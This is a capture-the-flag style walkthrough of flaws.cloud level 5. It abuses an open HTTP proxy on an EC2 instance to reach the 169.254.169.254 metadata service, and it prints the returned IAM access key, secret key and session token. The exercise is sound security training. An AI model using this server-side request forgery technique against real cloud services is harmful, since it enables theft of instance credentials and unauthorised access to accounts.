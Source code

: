 
---



## Level 5 - gain metadata from magic ip 169.254.169.254

> https://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/


<font color=OrangeRed>

This EC2 has a simple HTTP only proxy on it.

Here are some examples of it's usage:
- https://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
- https://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
- https://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/

See if you can use this proxy to figure out how to list the contents of the level6 bucket at level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud that has a hidden directory in it.

</font>


1. find the credential

```bash
aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud \
    --profile flaws
# An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied


# the structure to use the proxy is:
URL/proxy/2ndURL


# In the given URLs this looks like it just redirects us.
# In cloud environments like AWS, GCP, Azure etc, there is an IP that instances can view for metadata.
# This is known as the magic address 169.254.169.254.
# This is the same across all major providers and has been the target for very prolific attacks such as CapitalOne breach.
# We can’t reach the magic address from where we are normally, only things within the cloud environment can see it.
# However, since the EC2 instance is proxying our traffic, we can get that to hit the magic address for us.

# to view metadata:
https://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/
# 1.0
# 2007-01-19
...
# 2019-10-01
# 2020-10-27
# latest


https://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
# {
#   "Code" : "Success",
#   "LastUpdated" : "2021-01-25T02:43:46Z",
#   "Type" : "AWS-HMAC",
#   "AccessKeyId" : "ASIA6GG7PSQG3Z37DUWV",
#   "SecretAccessKey" : "jGW0vsJZV4UxMbkAZXW/7+cEyjRd1UPmNt0Jdokq",
#   "Token" : "IQoJb3JpZ2luX2VjE...HVF05TUZ6AQ==",
#   "Expiration" : "2021-01-25T08:49:02Z"
# }
```